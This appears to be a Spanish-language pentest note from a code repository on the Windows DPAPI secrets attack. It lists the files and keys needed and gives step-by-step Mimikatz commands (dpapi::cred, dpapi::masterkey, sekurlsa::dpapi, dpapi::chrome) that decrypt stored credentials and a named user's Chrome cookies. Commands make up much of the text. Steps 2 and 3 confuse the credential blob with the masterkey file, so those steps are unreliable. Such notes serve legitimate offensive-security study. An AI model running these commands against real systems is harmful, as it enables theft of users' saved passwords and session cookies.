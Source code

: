 # DPAPI secrets Attack
## Explicación
- DPAPI es un mecanismo de cifrado de datos que se utiliza para proteger los datos del usuario en Windows.
- Aplicaciones como Chrome, Outlook, etc. utilizan DPAPI para proteger las contraseñas.

### Que se necesita para hacer este ataque
- El SID del usuario
- El masterkey del usuario
- La contraseña del usuario
- `C:\users\<user>\appdata\local\microsoft\credentials\<blob>` (blob es un archivo binario que contiene la masterkey cifrada con la contraseña del usuario)
- `C:\users\<user>\appdata\roaming\microsoft\protect\<SID>\` (contiene el masterkey cifrado con la contraseña del usuario)

### Pasos
1. Obtener el SID del usuario: `whoami /user` o `wmic useraccount get name,sid`
2. Obtener el masterkey cifrado con la contraseña del usuario: `C:\users\<user>\appdata\local\microsoft\credentials\<blob>`
3. Obtener el masterkey cifrado con la contraseña del usuario: `C:\users\<user>\appdata\roaming\microsoft\protect\<SID>\`
4. Mimikatz: `dpapi::cred /in:C:\users\<user>\appdata\local\microsoft\credentials\<credential blob>`
- Nos guardamos `guidMasterKey` y `pbData`
- Revisar `c:\users\<user>\appdata\roaming\microsoft\protect\<SID>\` para ver si hay un archivo con el mismo `guidMasterKey`
- Si lo hay, usamos `mimikatz dpapi::masterkey /in:C:\users\<user>\appdata\roaming\microsoft\protect\<SID>\<guidMasterKey> /password:<password>`
- `mimikatz dpapi::masterkey /in:C:\users\<user>\appdata\roaming\microsoft\protect\<SID>\<MasterKey blob> /rpc`

### Otros comandos
- `sekurlsa::dpapi` conseguimos las masterkeys cifradas con la contraseña del usuario
- Ahora podemos hacer `dpapi::masterkey /in:C:\users\<user>\appdata\roaming\microsoft\protect\<SID>\<guidMasterKey> /password:<password>`
- `dpapi::chrome /in:"C:\Users\kbell\AppData\Local\Google\Chrome\User Data\Default\Cookies" /masterkey:9a6f199e3d2e698ce78fdeeefadc85c527c43b4e3c5518c54e95718842829b12912567ca 0713c4bd0cf74743c81c1d32bbf10020c9d72d58c99e731814e4155b`

### Referencias
- [Fortra](https://www.coresecurity.com/core-labs/articles/reading-dpapi-encrypted-keys-mimikatz)
- [Hack Tricks Wiki](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords.html?highlight=dpapi#master-keys)